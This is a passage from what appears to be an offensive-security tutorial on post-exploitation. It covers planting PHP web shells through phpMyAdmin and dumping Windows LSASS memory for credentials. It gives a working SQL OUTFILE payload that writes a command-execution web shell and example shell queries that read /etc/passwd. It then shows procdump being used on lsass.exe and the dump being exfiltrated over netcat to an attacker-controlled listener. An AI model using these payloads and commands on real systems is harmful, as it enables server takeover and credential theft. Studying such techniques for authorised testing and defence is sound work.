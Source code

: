    This creates a password-protected web shell with a simple interface.
   
   **Method 5: Using phpMyAdmin Plugins Directory**

   If you have sufficient permissions:

   25. Identify the phpMyAdmin plugins directory (often `/usr/share/phpmyadmin/plugins/` or similar)
   26. Use the SQL OUTFILE command to write a PHP file to that directory:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/usr/share/phpmyadmin/plugins/shell.php";
```

   27. Access the shell via:

```bash
http://192.168.74.162/phpMyAdmin/plugins/shell.php?cmd=id
```

   **Testing and Using Your Web Shell**

   After deploying the web shell, test it with basic commands:

```php
?cmd=id                   # Show user ID

?cmd=whoami               # Show current user

?cmd=uname%20-a           # Show system information

?cmd=cat%20/etc/passwd    # View passwd file

?cmd=ls%20-la             # List files with details

?cmd=pwd                  # Show current directory

```

   For more complex commands, use URL encoding for special characters:

```
?cmd=find%20/%20-name%20%22*.conf%22%20-type%20f%202>/dev/null
```

   This command searches for all .conf files on the system.

---
## OS Credential Dumping

### LSASS Memory Analysis

The Local Security Authority Subsystem Service (lsass.exe) is a critical component of the Windows security subsystem responsible for managing user authentication and creating security tokens for login sessions.

#### Detailed Example: Dumping LSASS Memory with Procdump

```bash
# On Windows:
# 1. Download Procdump from Sysinternals
# 2. Identify LSASS process ID
PS > Get-Process -Name lsass
# 3. Dump the process memory
PS C:\Users\IEUser\Downloads\Procdump> .\procdump.exe -ma 436 lsass.dmp

# Transfer the dump file for analysis
# On Kali Linux:
# 1. Set up a listener
└─$ nc -vlp 123 > lsass.dmp
# On Windows:
C:\netcat-1.11> nc.exe 192.168.1.142 123 < C:\Users\IEUser\Downloads\Procdump\lsass.dmp
```